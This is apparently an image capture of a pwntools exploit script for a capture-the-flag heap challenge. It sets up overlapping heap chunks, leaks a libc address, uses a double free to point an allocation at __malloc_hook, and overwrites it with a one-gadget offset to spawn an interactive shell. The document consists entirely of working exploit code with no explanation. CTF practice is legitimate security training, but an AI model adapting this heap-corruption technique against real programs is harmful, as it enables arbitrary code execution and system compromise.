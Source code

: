 ```
# chunk overlap
free(3)
alloc(0xf0,'A' * 0xf0) #2
pause()
# libc leak
show(1)
s.recvuntil('content: ')
libc = u64(s.recv(6) + "\x00" * 2) - l.symbols['__malloc_hook'] - 0x78   #local
#libc = u64(s.recv(6) + "\x00" * 2) - l.symbols['__malloc_hook'] - 0x68
log.info("libc : " + hex(libc))
log.info("__malloc_hook : " + hex(l.symbols['__malloc_hook']))
#log.info("libc : " + hex(libc))

free(2)
alloc(0x80, 'A' * 0x80)#2
alloc(0x80, 'C' * 0x60 + p64(0) + p64(0x71) + p64(0) + p64(0))#3

free(1)
free(3)
#double free
hook = libc + l.symbols['__malloc_hook'] - 0x13
oneshot = libc + 0x4526a
#oneshot = libc + 0x4647c  #local
alloc(0x80, 'C' * 0x60 + p64(0) + p64(0x70) + p64(hook) + p64(0))#1

alloc(0x60,'A' * 0x60)#3
alloc(0x60,'A' * 0x3 + p64(oneshot) + "\n")#5

s.interactive()
```
